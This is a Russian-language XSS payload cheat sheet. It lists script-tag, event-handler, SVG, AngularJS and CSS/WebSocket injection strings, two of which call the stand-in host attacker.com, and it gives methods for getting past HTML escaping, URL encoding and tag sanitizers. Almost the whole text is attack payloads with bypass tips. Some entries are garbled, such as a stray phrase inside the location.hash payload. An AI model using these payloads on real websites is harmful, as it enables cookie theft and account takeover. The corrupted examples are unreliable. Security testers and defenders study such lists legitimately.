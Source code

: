 
# Варианты полезной нагрузки

#### Простое окошко xss атаки
	`<script>alert('XSS Attack!');</script>`
- **Условия работы**:
    - Сервер не экранирует или не фильтрует входные данные.
    - Внедренный код выполняется в контексте браузера.

#### XSS через `onerror`
	`<img src="invalid.jpg" onerror=alert('XSS Attack!')>` 
- **Условия работы**:
    - Атрибуты HTML не экранируются.
    - Изображение не загружается, что вызывает выполнение `onerror`.

#### XSS через `onload`
	`<img src="valid.jpg" onload=alert('XSS Attack!')>` 
- **Условия работы**    
    - Атрибуты HTML не экранируются.
    - Изображение успешно загружается, что вызывает выполнение `onload`.

#### XSS через SVG
	`<svg/onload=alert(1)>`
- **Условия работы**:
    - SVG-файлы обрабатываются как HTML.
- **Обход**:  
    Используйте другие векторные изображения или внедряйте JavaScript.

### XSS через CSS
	`<style>@import url('http://attacker.com/xss.css');</style>`
- **Условия работы**:
    - CSS-файлы загружаются без проверки.
- **Обход**:  
    Используйте `expression()` в старых версиях IE:
    `background: expression(alert(1));`

#### XSS через WebSocket
	`new WebSocket('ws://attacker.com/xss');`
- **Условия работы**:
    - WebSocket-соединения не проверяются.
- **Обход**:  
    Используйте вредоносные payloads в сообщениях WebSocket.

####  XSS через jQuery и `URLSearchParams`
	`javascript:alert(document.cookie)`
- **Условия работы**:
    - Параметры URL передаются в JavaScript без проверки.
    - Используется `eval` или аналогичные функции.

#### XSS через `location.hash`
	`/#Say It With Flowers - Or Maybe Not onload="this.src+='<img src="1" onerror=alert(1)>'">`
- **Условия работы**:
    - Хэш URL передается в JavaScript без проверки.
    - Используется для динамического изменения содержимого страницы.

####  XSS через AngularJS
- AngularJS c {{ }}
	`{{ метод.constructor('') }}`
	`{{ $eval.constructor('alert1')() }}` 
- **Условия работы**:
    - AngularJS используется без отключения интерполяции (`{{ }}`).
    - Входные данные не экранируются.

# Методы обхода защит

####  Экранирование HTML
	`&lt;script&gt;alert(1)&lt;/script&gt;`
- **Как работает**:
    - Символы `<` и `>` заменяются на HTML-сущности.
- **Обход**:  
    Используйте альтернативные теги или атрибуты:
    `<img src="x" onerror=alert(1)>`

#### URL-кодировка
	`%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e`
- **Как работает**:
    - Код кодируется в URL-формате.
- **Обход**:  
    Используйте двойное кодирование или передачу через параметры:

#### Внедрение в атрибуты HTML
	`<div title="xss' onmouseover='alert(1)"></div>`
- **Как работает**:
    - Вредоносный код внедряется в атрибуты HTML.
- **Обход**:  
    Используйте кавычки или другие атрибуты:
    `<img src="x" onerror=alert(1)>`

#### Обход очищения тегов
	`<><img src="0" onerror="alert(1)">`
- **Как работает**:
    - Очищение тегов настроено неправильно (например, удаляет только первый тег).
- **Обход**:  
    Используйте вложенные теги или самозакрывающиеся теги:
    `<svg/onload=alert(1)>`


